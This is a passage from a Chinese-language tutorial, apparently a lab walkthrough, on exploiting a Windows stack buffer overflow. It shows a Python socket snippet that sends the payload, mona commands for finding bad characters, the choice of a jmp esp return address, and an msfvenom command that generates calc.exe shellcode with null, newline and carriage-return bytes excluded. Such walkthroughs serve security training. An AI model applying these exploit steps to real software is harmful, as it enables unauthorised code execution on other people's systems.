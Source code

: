 ```
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()
```  
  
对比命令：ERC --compare EIP值 盘符:\bin文件所在路径\文件名  
  
看到00后开始不一样了  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyMzicicLziama2nV5KSiaYXicNxtnM15qbdkjnUhNA8pjnjubkxYOYFglbTA/640?wx_fmt=jpeg "")  
  
删除无效字符：ERC --bytearray -bytes 0x00  
  
看到0x00没有使用了  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyTCLh0P9EiaUcEVDgPx7ZYLia6g0ueBFib6Hmyib7eG7jZ5PxlfibP7UfIrA/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUy4ezNyv3nO83N9CPYqZdzYcupkPRfhTDNFgWKd45HLc4FFEfHXHm21A/640?wx_fmt=jpeg "")  
  
根据此思路删除  
  
ERC --bytearray -bytes 0x00,0x0A,0x0D  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyBMMovEGnXeWv034ZybTf980dSyvffqLCxpn1myccBk3mFAxXQl24CA/640?wx_fmt=jpeg "")  
  
  
**危害判定测试**  
  
## 寻找可被利用的地址（这里使用jmp esp进行测试）  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyqQicxVDxh1ZmR3BfiaFFp8emSpq6ThCIiaFvEx2Tg2rbIfYPmrSiaY8OIw/640?wx_fmt=jpeg "")  
  
621014E3 选择一个进行测试  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUy0XIBvniawEfaqRoCLbz02ia7eqasjDDtJhKZgpkkHia5xuQSibsaSiaqwOQ/640?wx_fmt=jpeg "")  
  
运行记事本程序生成命令与参数：  
```
msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00''\x0A''\x0D' 
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/xkA3iaCzeYpoEgWWvOsC82qqCiby4F6CkKFxs4xIyB9jiaoWR6Cr3oZmPLkicRrOWvMfZj8J8MCUCjRlicfoRaVaNHA/640?wx_fmt=png "")  
  
shell  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyffOE3hzqohTuOVYbsbNlz73Qq54Vp6doGTIn3FLyrlz4GwiaXGHxsqw/640?wx_fmt=jpeg "")  
  
备注：因系统编码不同会导致终端字符串显示乱码，可输入chcp 65001  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUybWebyew0pctIBQM7rtDyCD4QqlPt6wNHFWtpiaSXX1JFKRbTsXy1cyw/640?wx_fmt=jpeg "")  
  
结尾：  
  